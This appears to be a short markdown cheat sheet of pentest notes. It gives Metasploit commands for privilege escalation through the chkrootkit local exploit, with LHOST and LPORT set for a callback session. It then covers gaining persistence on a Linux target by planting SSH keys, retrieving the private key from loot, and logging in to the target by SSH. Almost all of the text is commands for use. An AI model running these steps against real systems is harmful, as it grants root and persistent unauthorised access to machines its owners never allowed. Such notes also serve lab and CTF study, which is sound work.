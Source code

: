 
<h4>Exploiting chrootkit</h4>

To check the process key
```
ps aux
```
To escalate privilges using chrooktit, ensure you upgrade to a meterpreter session
```
sessions -u 1
```
Now looking for the module
```
search chrootkit
use exploit/unix/local/chkrootkit
```
Exploiting
```
set SESSION 2 (to meterpreter session)
set chkrootkit /bin/chkrootkit  (Check the path to this on the target's machine)
set LHOST
set LPORT
run
```



<h4>Linux Persistence</h4>

After getting root on the target's machine, to get persistence
```
use post/linux/manage/sshkey_persistence
set SESSION 4 (to the root meterpreter session)
set CREATESSHFOLDER true
exploit
```
To view the newly created private key that can be used to authenticate with target system
```
loot
```
Giving permission to the private key
```
chmod 0400 id_rsa
```
To authenticate as the user
```
ssh user@10.10.10.10 -i id_rsa
```


>Another way to do this is to copy the id_rsa key after getting root shell instead of using the metasploit module


